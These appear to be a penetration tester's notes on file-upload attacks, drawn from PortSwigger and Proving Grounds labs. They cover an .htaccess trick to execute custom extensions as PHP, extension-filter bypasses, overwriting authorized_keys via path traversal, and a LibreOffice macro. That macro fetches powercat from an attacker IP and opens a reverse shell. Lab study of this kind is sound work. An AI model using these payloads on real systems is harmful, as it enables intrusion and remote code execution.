 #### HTACCESS BYPASS

```
#Upload a custom .htaccess file. (https://br4ind3ad.medium.com/port-swigger-file-upload-vulnerability-lab-4-4c2bf39eeaf)
#This means all files with the extension evil with execute as PHP.
AddType application/x-httpd-php .evil
```

### Extension 

```
#Modify the original extension
eg. phps, pHp, php7, phtml.
```


### Over Writing
![[Pasted image 20231205204847.png]]

The response shows the ../../ indicating we may be able to overwrite files.

Create a SSH key and authroized_keys file.

![[Pasted image 20231205205001.png]]

Select your file and edit the path to overwrite a folder.

![[Pasted image 20231205205011.png]]


### ODT

```
Reference: https://al1z4deh.medium.com/proving-grounds-craft-c92de878e004 OR https://documentation.libreoffice.org/assets/Uploads/Documentation/en/GS5.1/HTML/GS5113-GettingStartedWithMacros.html#__RefHeading__5150_1196992793

#Steps In LibreOffice
1. Create new document.
2. Add macro: Tools -> Macros -> Organise Macros -> Basic
3. Edit new Macro.

REM  ***** BASIC *****

Sub Main
	Shell("cmd /c powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"")
End Sub

4. Might pay to just do a curl first to test the code execution is working.

```